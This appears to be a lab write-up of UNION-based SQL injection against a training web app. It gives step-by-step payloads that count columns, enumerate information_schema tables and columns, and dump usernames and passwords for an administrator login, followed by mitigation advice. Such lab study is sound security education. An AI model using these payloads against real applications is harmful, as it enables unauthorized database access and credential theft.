









# SQL Injection Attack – Listing Database Contents on Non-Oracle Databases

## Lab Overview

This lab demonstrates how a **SQL Injection vulnerability** can be exploited to enumerate database metadata and extract sensitive information such as usernames and passwords.

The vulnerability exists in the **product category filter parameter**, which is directly embedded into a SQL query without proper input validation.

Using a **UNION-based SQL Injection attack**, it is possible to:

- Enumerate database tables
- Identify columns inside those tables
- Extract sensitive data such as credentials

The backend database used in this lab is a **non-Oracle database (PostgreSQL / MySQL / MSSQL)**, which exposes metadata through the **`information_schema`** database.

---

# Vulnerability

The application is vulnerable to **UNION-based SQL Injection** in the category filter parameter.

---

# Example vulnerable request:

/filter?category=Pets


If user input is not sanitized, an attacker can inject SQL commands directly into the query.

---

## Example injection:
```sql
Pets' UNION SELECT NULL,'test'-- -
```
---


This confirms the ability to inject arbitrary SQL queries.

---

# Step 1 – Determine Number of Columns

The first step is determining the number of columns returned by the original query.

---

## Payload used:

```sql
Pets' ORDER BY 2-- -
```

If the query executes successfully, it indicates that the result set contains at least two columns.

This allows us to construct a valid UNION SELECT statement.

---

### Step 2 – Confirm UNION Injection

Next, we confirm that UNION queries can inject data into the response.

# Payload:
```sql
Pets' UNION SELECT NULL,'test'-- -
```

If the word test appears in the response, it confirms that:

.UNION injection works
.The second column is reflected in the response

---
## Step 3 – Enumerate Database Tables

Non-Oracle databases store metadata in the `information_schema` database.

We can list all tables using:

```sql
Pets' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```

This returns multiple table names, including:
```
 `users_vhedfe`
```
This table likely stores user credentials.

---
## Step 4 – Enumerate Table Columns

After discovering the table name, the next step is to list its columns.

## Payload:

```sql
Pets' UNION SELECT column_name,NULL 
FROM information_schema.columns 
WHERE table_name='users_vhedfe'-- -
```
This reveals the columns:

```
username_jdeffp
password_jsbbsr
```
These columns contain usernames and passwords.
---
## Step 5 – Extract Credentials

Now that both the table name and column names are known, we can retrieve the stored credentials.

# Payload:

```sql
Pets' UNION SELECT username_jdeffp,password_jsbbsr FROM users_vhedfe-- -
```

This displays the credentials for all users:

```
wiener
carlos
administrator
```
The administrator password can now be used to log into the application.

---

### Step 6 – Login as Administrator

Using the extracted credentials:
```
Username: administrator
Password: <extracted password>
```
---

# Database Enumeration Process (Summary)

1 . The attack followed these steps:

2 . Identify SQL injection vulnerability

3 . Determine number of columns using `ORDER BY`

4 . Confirm UNION injection

5 . Enumerate tables using `information_schema.tables`

6 . Enumerate columns using `information_schema.columns``

7 . Extract sensitive data

8 . Authenticate as administrator


---

## Difference Between Oracle and Non-Oracle Databases

SQL injection enumeration techniques differ depending on the database engine.


|Feature | Oracle Database | Non-Oracle Databases (`MySQL` / `PostgreSQL` / `MSSQL`)|
|--------|-----------------|--------------------------------------------------------|
|Metadata storage | Oracle system views | `information_schema`|
|Table enumeration | `ALL_TABLES` | `information_schema.tables`|
|Column enumeration | `ALL_TAB_COLUMNS` | `information_schema.columns`|
|Version retrieval | `v$version` | `@@version`|
|Metadata access | Oracle system views | Standardized SQL schema|


Example enumeration queries:

# Oracle
```sql
SELECT table_name FROM all_tables
```

```sql
SELECT column_name FROM all_tab_columns WHERE table_name='USERS'
```

# Non-Oracle
```sql
SELECT table_name FROM information_schema.tables
```

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='users'
```
Understanding these differences is important during database fingerprinting in penetration testing.

---

# Impact

If exploited in a real-world application, this vulnerability could allow attackers to:

. Enumerate database structure

. Extract user credentials

. Gain administrative access

. Access sensitive application data

. Fully compromise the system
---
## Mitigation

To prevent SQL Injection vulnerabilities:

. Use parameterized queries (Prepared Statements)

. Implement ORM frameworks

. Apply input validation and sanitization

. Use least privilege database accounts

. Implement Web Application Firewalls (WAF)

-> Example secure query (Parameterized):
```sql
SELECT * FROM products WHERE category = ?
```
---

## Conclusion

This lab demonstrates how UNION-based SQL Injection can be used to enumerate database metadata and extract sensitive information from non-Oracle databases using `information_schema`.

By systematically identifying the injection point, determining column structure, and querying metadata tables, an attacker can escalate the attack to obtain administrator credentials and fully compromise the application.


## Screenshots:

# lab overview


# cloumn count


# union test


# Datebase tables Enum 


# user table


# payload injection 


# Admin creds


# Admin login


# Lab sloved 
